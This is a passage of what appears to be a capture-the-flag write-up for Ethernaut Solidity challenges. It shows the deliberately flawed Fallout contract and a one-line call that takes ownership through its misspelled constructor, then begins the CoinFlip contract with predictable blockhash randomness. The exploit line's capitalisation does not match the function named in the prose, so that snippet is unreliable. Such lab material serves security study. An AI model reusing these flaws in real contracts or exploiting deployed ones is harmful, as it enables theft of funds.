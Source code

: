 ```solidity

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

The flaw in this contract is that the constructor name is misspelled so the solidity considers it a function rather than constructor. Now we can simply call the function Fal1out() to become the owner of the contract.
So,

```js
await contract.Fal1Out();
```

### Coin Flip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
```